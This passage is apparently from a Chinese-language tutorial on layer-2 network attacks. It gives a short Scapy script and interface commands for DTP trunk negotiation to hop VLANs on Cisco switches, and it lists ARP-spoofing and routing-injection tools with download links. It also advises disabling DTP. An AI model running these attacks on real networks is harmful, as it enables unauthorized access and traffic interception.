         幸运的是，防御这种类型的VLAN攻击并没有那么复杂：如果你真的想分离你的网络，只需要使用物理划分的交换机！<br>**<br>**

**0x08 DTP Abusing**

        TP（动态中继协议）是一种由思科发明的专有协议，用于如果一个端口是trunk端口，则交换机之间可以动态地交流。Trunk端口通常用于互连交换机和路由器，以便共享一些或所有已知的VLAN。<br>        为了能够执行下面的代码，你需要安装Scapy的开发版本。同时为了check out出源，请先安装Mercurial，然后键入以下命令来克隆Scapy repository。<br>

```
hg clone http://hg.secdev.org/scapy scapy
```

        如果你想跟踪Scapy的最新版本，你只需要时不时地更新checkout。<br>

```
cd scapy
hg pull
```

现在你可以将旧版本的Scapy变成最新版的了。<br>

```
pip uninstall Scapy
cd scapy
python setup.py install
```

多亏了DTP协议，和它完全忽视任何一种安全的属性，我们现在就可以发送一个动态可取包到每一个启用DTP的思科设备，并要求它将我们的端口转变为trunk端口。

```
#!/usr/bin/python    
 
import sys
from scapy.layers.l2 import Dot3 , LLC, SNAP
from scapy.contrib.dtp import *   
 
if len(sys.argv) &lt; 2:
        print sys.argv[0] + " &lt;dev&gt;"
        sys.exit()    
 
negotiate_trunk(iface=sys.argv[1])
```

        作为一个可选参数，你可以设置欺骗相邻交换机的MAC地址，如果没有设置，则会自动生成一个随机值。<br>        这种攻击可能会持续几分钟，但是攻击者并不关心延迟，因为他们知道在改变连接到每一个VLAN的可能性之后他们会得到什么！<br>

```
vconfig add eth0 &lt;vlan-id&gt;
ifconfig eth0.&lt;vlan-id&gt; &lt;ip_of_vlan&gt; up
```

        没有足够好的理由来使用DTP，所以干脆禁用掉它吧！<br>**<br>**

**0x09 Tools**<br>

```
NetCommander
```

        NetCommander是一个简单的ARP欺骗程序。它通过对每一个可能的IP发送ARP请求，来搜索网络上存活的主机。你可以选择需要劫持的连接，然后每隔几秒，NetCommander就会自动地欺骗那些主机和默认网关之间的双向连接。<br>        工具的源代码可以从这里下载：https://github.com/evilsocket/NetCommander<br>         Hacker’s Hideaway ARP Attack Tool<br>        Hacker’s Hideaway ARP Attack Tool比NetCommander的功能多一些。除了欺骗特殊连接，它还支持被动欺骗所有对源IP的ARP请求，和MAC泛洪攻击。<br>工具的下载链接为：https://packetstormsecurity.org/files/81368/hharp.py.tar.bz2<br>

```
Loki
```

Loki是一种像Yersinia的第二层和第三层攻击工具。它可以通过插件来扩展，也有一个漂亮的GUI界面。它实现了像ARP欺骗和泛洪，BGP，RIP路由注入之类的攻击，甚至可以攻击像HSRP和VRRP那样非常罕见的协议。<br>        工具的源代码地址为：https://www.c0decafe.de/loki.html
